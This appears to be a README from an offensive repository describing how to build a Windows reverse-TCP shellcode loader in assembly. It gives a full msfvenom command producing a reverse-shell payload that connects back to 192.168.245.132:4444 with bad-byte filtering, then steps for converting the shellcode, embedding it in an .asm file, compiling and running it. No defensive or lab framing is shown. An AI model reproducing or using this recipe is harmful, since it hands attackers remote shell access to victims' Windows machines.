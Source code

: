 # Assembler, Shellcode Loader (reverse TCP)

## 1. Create your payload

For example with : 

```msfvenom -p windows/x64/shell_reverse_tcp RHOST=192.168.245.132 LPORT=4444 -b '\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40' -f c ```

((this command create a shellcode in C language (you can do with python (p) or directly hex (hex)) and encode without "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" which can do complits))

## 2. Convert your shellcode

Use this homemade [converter_1](./convert.sh) or [converter_2](./convert2.sh) to get your asm shellcode.


## 3. Put your shellcode in your .asm code

```
.data
  shellcode DB XXXh,XXXh,XXh,..
                ....
                ....
                ....
endshellcode DB 0
```

See this example of [ASM File](./example.asm).

## 4. Compile your ASM

On windows you can use this compiler [script](./compiler.bat)

## 5. Run

One example with a loader + reverse shell code : [here](./reverse.asm)
